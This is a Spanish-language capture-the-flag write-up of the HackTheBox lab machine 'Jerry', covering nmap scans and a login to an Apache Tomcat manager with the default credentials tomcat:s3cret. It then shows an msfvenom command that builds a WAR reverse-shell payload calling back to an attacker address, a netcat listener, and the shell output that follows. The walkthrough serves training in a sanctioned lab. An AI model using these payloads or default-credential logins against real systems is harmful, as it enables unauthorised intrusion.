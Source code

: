 ```yaml
---
title: "Jerry - HackTheBox"
date: 2024-08-18 00:00:00 +0800
categories: [Ciberseguridad,Writeups,HTB]
tags: [eJPT]
image: images/Jerry.png 
---
```


# Reconocimiento

El primer paso en cualquier evaluación de seguridad o prueba de penetración es el reconocimiento.

En este caso, comencé con un reconocimiento activo utilizando el comando `ping` para determinar si la máquina objetivo, en este caso, la IP `10.129.136.9`, estaba activa y podía responder a las solicitudes de red.

```bash
ping -c 1 10.129.136.9
PING 10.129.136.9 (10.129.136.9) 56(84) bytes of data.
64 bytes from 10.129.136.9: icmp_seq=1 ttl=127 time=83.7 ms

--- 10.129.136.9 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 83.738/83.738/83.738/0.000 ms
```

# Escaneo

Después de confirmar que la máquina objetivo estaba activa, mi siguiente paso fue realizar un escaneo de puertos para identificar los servicios que están escuchando en la máquina. 

Para ello, utilicé Nmap, una herramienta poderosa que uso para el reconocimiento y la enumeración de puertos.

```bash
sudo nmap -sS --min-rate 5000 -p- --open 10.129.136.9 -oN allPorts.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:42 CEST
Nmap scan report for 10.129.136.9
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 28.22 seconds

```

# Enumeración

Tras identificar que el puerto 8080 estaba abierto y ejecutando un servicio HTTP, decidí profundizar en la investigación del servicio específico que estaba corriendo en ese puerto.

Utilicé Nmap con opciones adicionales que permiten obtener más información sobre el servicio y su versión.

```bash
sudo nmap -p 8080 -sCV 10.129.136.9 -oN services.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:04 CEST
Nmap scan report for 10.129.136.9
Host is up (0.058s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds

```

# Exploración del servicio web

Después de identificar que el puerto `8080` estaba abierto y ejecutando Apache Tomcat, procedí a visitar la URL directamente en el navegador para explorar la interfaz web disponible.

![ApacheTomcat](images/Jerry1.png)

A continuación, decidí probar algunas de las rutas comunes en Apache Tomcat para identificar posibles accesos adicionales o vulnerabilidades dentro del servidor.

![AccesoApacheTomcat](images/Jerry2.png)

Al intentar iniciar sesión, probé las credenciales comunes admin:admin, pero el intento fue rechazado. Sin embargo, el mensaje de error resultante proporcionó una pista valiosa, sugiriendo que probara con el usuario tomcat y la contraseña s3cret, lo que podría ayudarnos a conseguir las claves de acceso correctas.

![AccesoApacheTomcat](images/Jerry3.png)

Al introducir estas credenciales, logré acceder exitosamente a la interfaz de administración de Apache Tomcat.

![PanelApacheTomcat](images/Jerry4.png)

Ahora, con acceso al administrador de Tomcat, tengo la capacidad de gestionar aplicaciones web desplegadas en el servidor, lo que me permite explorar posibles vulnerabilidades y vectores de ataque adicionales.

# Explotación

Después de acceder a la interfaz de administración de Apache Tomcat y confirmar la posibilidad de subir archivos, mi siguiente paso fue preparar una aplicación maliciosa que, al ser desplegada y ejecutada, me diera acceso al sistema con una consola interactiva.

Utilicé msfvenom, una herramienta poderosa para generar payloads, para crear un archivo .war que contiene un payload que, al ser ejecutado, establecerá una conexión de reverse shell con mi máquina atacante.

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f war -o shell.war
```
![Shell.war](images/Jerry6.png)

Para capturar la conexión de reverse shell desde la máquina objetivo, configuré un listener en mi máquina atacante. En lugar de usar netcat solo, utilicé rlwrap para mejorar la experiencia de la shell, ya que rlwrap permite utilizar funciones avanzadas como el historial de comandos y la edición en línea.

```shell
rlwrap nc -nlvp 443
```

Con el listener configurado en mi máquina atacante usando rlwrap y netcat, el siguiente paso fue ejecutar el archivo malicioso que subí al servidor Apache Tomcat. Este archivo, diseñado para establecer una reverse shell, me proporcionaría acceso al sistema objetivo.

```shell
rlwrap nc -nlvp 443              
listening on [any] 443 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Con el listener configurado y en espera, y después de ejecutar el archivo malicioso en el servidor Apache Tomcat, obtuve acceso exitoso a la máquina objetivo. La conexión de reverse shell se estableció correctamente, y ahora tengo control sobre el sistema.

Con el acceso exitoso a la máquina objetivo mediante la reverse shell, el siguiente paso es buscar las flags, que generalmente están ubicadas en directorios específicos o son archivos de texto que indican el éxito en la explotación de la máquina.

![Jerry](images/Jerry5.png)








